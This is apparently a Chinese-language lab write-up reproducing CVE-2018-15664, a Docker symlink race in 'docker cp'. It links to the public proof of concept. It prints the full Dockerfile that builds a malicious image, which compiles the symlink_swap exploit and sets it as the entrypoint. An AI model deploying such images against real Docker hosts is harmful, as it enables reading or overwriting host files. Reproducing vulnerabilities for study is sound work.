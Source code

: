 

![](/CVE-2018-15664漏洞复现/CVE-2018-15664-2.jpg)

### poc:

https://seclists.org/oss-sec/2019/q2/131

![](/CVE-2018-15664漏洞复现/CVE-2018-15664-3.jpg)

### DockerFile

用来制作恶意镜像

构建漏洞利用程序symlink_swap并将其放在容器根目录下，并在根目录创建一个w00t_w00t_im_

a_flag文件，内容为FAlLED-INSIDE CONTAINER PATH

容器启动后执行(Entrypoint)即为/symlink_swap

```
# Build the binary.
#拉取suse linux的基础镜像
FROM opensuse/tumbleweed
#安装gcc glibc-devel-static
RUN zypper in -y gcc glibc-devel-static
RUN mkdir /builddir
#构建漏洞利用程序symlink_swap，并将其放在容器根目录下
COPY symlink_swap.c /builddir/symlink_swap.c
RUN gcc -Wall -Werror -static -o /builddir/symlink_swap /builddir/symlink_swap.c

# Set up our malicious rootfs.
FROM opensuse/tumbleweed
ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flag
ARG SYMSWAP_PATH=/totally_safe_path
RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"
COPY --from=0 /builddir/symlink_swap /symlink_swap
#容器启动后执行的程序（Etrypoint）即为/symlink_swap
ENTRYPOINT ["/symlink_swap"]
```

### 知识点：

#### 多阶段构建
